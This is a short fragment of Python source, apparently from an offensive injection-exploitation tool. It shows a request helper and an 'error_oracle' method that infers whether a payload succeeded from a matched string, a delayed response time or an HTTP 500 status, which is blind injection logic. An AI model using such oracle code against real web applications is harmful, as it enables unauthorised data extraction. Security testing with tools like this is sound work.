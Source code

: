 ```
                    requ = self.session.post(self.target, json=merged_data)
                else:
                    requ = self.session.post(self.target, data=merged_data)
                return requ
        except requests.exceptions.ConnectionError:
            print("[-] Could not instantiate a connection")
            exit(1)
        return None

    """
    Used to determine if the answer trigged the error based oracle
    TODO : increase the efficiency of the time based oracle
    """

    def error_oracle(self, s):
        requ = self.req_with_response(s)

        if self.match:
            # DEBUG print("PATT", (self.match in requ.text))
            return self.match in requ.text

        if self.time_based_attack:
            # DEBUG print("ELAP", requ.elapsed.total_seconds() > ((self.time_based_attack/2)+0.01))
            return requ.elapsed.total_seconds() > ((self.time_based_attack / 2) + 0.01)

        # DEBUG print("CODE", requ.status_code == 500)
        return requ.status_code == 500
```

![](./images/image-212.png)
